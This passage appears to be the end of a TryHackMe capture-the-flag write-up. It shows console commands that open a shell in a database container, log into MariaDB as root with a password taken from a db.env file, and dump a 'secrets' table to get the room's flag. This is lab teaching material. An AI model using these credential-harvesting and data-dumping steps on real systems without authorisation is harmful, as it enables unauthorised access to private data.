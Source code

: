 We can get a shell inside the database container as follows:

```console
root@ubuntu-jammy:~/challenge# docker container exec -it 8936 bash
```

Connecting to the database with the password we discovered in the `db.env` file and checking the databases, we can see that, apart from the `web` database we already had access to, we have access to one more database: `secret`.

```console
root@89366d62e05c:/# mysql -u root -pgG4i8NFNkcHBwUpd
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| secret             |
| sys                |
| web                |
+--------------------+
6 rows in set (0.004 sec)
```

Checking the tables for the `secret` database, there is one table: `secrets`.

```console
MariaDB [(none)]> use secret;
MariaDB [secret]> show tables;
+------------------+
| Tables_in_secret |
+------------------+
| secrets          |
+------------------+
1 row in set (0.000 sec)
```

Finally, fetching everything from the `secrets` table, we can discover the root flag and complete the room.

```
MariaDB [secret]> select * from secrets;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| THM{[REDACTED]}                       |
+---------------------------------------+
1 row in set (0.000 sec)
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>